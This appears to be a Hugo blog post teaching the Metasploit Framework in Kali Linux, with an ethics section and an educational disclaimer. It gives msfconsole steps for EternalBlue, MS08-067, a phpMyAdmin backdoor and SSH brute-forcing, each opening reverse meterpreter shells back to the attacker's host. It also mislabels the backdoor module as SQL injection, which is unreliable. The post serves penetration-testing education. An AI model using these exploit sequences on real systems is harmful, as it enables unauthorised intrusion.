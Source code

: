 ```yaml
---
title: Unveiling the Power of Metasploit Framework in Kali Linux
subtitle: 'Harnessing the Power of Metasploit: A Journey into Ethical Hacking and Cybersecurity'

# Summary for listings and search engines
summary: 'A Comprehensive Guide to Metasploit Framework in Kali Linux'

# Link this post with a project
projects: []

# Date published
date: '2017-07-05T00:00:00Z'

# Date updated
lastmod: '2024-01-05T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# To comment on this page
commentable: true

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**By_Author_using_BingCreator**](featured.jpg)'
  focal_point: 'Smart'
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - CyberSecurity

categories:
  - CyberSecurity
  - KaliLinuxTools
---
```


## **Unveiling the Power of Metasploit Framework in Kali Linux: A Complete Guide to Ethical Hacking**

### Introduction:
In the realm of cybersecurity, the Metasploit Framework stands tall as a potent weapon in the arsenal of ethical hackers and security professionals. Developed by Rapid7, Metasploit is an open-source penetration testing framework that empowers users to assess and exploit vulnerabilities in target systems. This comprehensive blog post will delve into the intricacies of Metasploit, exploring its diverse functionalities, various types of attacks it facilitates, and the ethical considerations essential for responsible usage.
{style="text-align: justify;"}

### Understanding Metasploit Framework:
Metasploit is a feature-rich tool bundled with a plethora of exploits, payloads, auxiliary modules, and post-exploitation tools. It simplifies the process of conducting penetration tests by providing an intuitive interface and a robust command-line interface. The framework's modular architecture allows users to customize and extend its capabilities to suit their specific requirements.
{style="text-align: justify;"}

### Types of Attacks and How to Execute Them
> **1. Remote Code Execution (RCE)**


Remote Code Execution allows an attacker to execute arbitrary code on a target system. 

Here’s how you can perform an RCE attack using Metasploit:
```bash
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set RHOSTS target_ip
msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > set LHOST your_ip
msf exploit(ms17_010_eternalblue) > exploit
```
> **2. SQL Injection**


SQL Injection is a code injection technique that attackers use to insert malicious SQL statements into input fields for execution. 

Here’s how you can perform a SQL Injection attack using Metasploit:
```bash
msf > use exploit/unix/webapp/phpmyadmin_3522_backdoor
msf exploit(phpmyadmin_3522_backdoor) > set RHOSTS target_ip
msf exploit(phpmyadmin_3522_backdoor) > set PAYLOAD php/meterpreter/reverse_tcp
msf exploit(phpmyadmin_3522_backdoor) > set LHOST your_ip
msf exploit(phpmyadmin_3522_backdoor) > exploit
```
> **3. Brute Force Attack**


A brute force attack uses trial-and-error to guess login credentials, encryption keys, or find a hidden webpage. 

Here’s how you can perform a brute force attack using Metasploit:
```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS target_ip
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /path/to/wordlist
msf auxiliary(scanner/ssh/ssh_login) > run
```
> **4. Buffer Overflow**


A buffer overflow occurs when more data is put into a buffer than it can handle, causing it to overflow and allowing an attacker to overwrite adjacent memory locations. 

Here’s how you can perform a buffer overflow attack using Metasploit:
```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST target_ip
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST your_ip
msf exploit(ms08_067_netapi) > exploit
```

### Ethical Considerations:
While Metasploit is a powerful tool for security testing, its usage must be governed by ethical considerations:

- **Permission:** Always obtain explicit authorization before conducting penetration tests or security assessments on any system or network.
- **Scope:** Limit activities to the agreed-upon scope of the assessment to avoid causing unnecessary harm or disruption.
- **Data Protection:** Respect the privacy and confidentiality of any data encountered during testing and adhere to relevant data protection regulations.
- **Disclosure:** Communicate findings and vulnerabilities responsibly to relevant stakeholders, enabling them to take appropriate remedial actions.


### Conclusion:
Metasploit Framework in Kali Linux is a indispensable tool for security professionals, enabling them to identify and address vulnerabilities proactively. By understanding its functionalities, executing various types of attacks, and adhering to ethical principles, users can enhance the security posture of systems and networks effectively.
{style="text-align: justify;"}

### References:

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/)
- [Metasploit Framework Documentation](https://docs.metasploit.com/)
- [Kali Linux Documentation](https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/)
- [Rapid7](https://github.com/rapid7/metasploit-framework)

{{% callout warning %}}
**Disclaimer:**
This blog post is intended for educational purposes only. The author and publisher do not endorse or condone any unauthorized or illegal activities conducted using Metasploit or any other hacking tools. Always ensure that you have proper authorization before conducting security assessments or penetration tests.
{style="text-align: justify;"}
{{% /callout %}}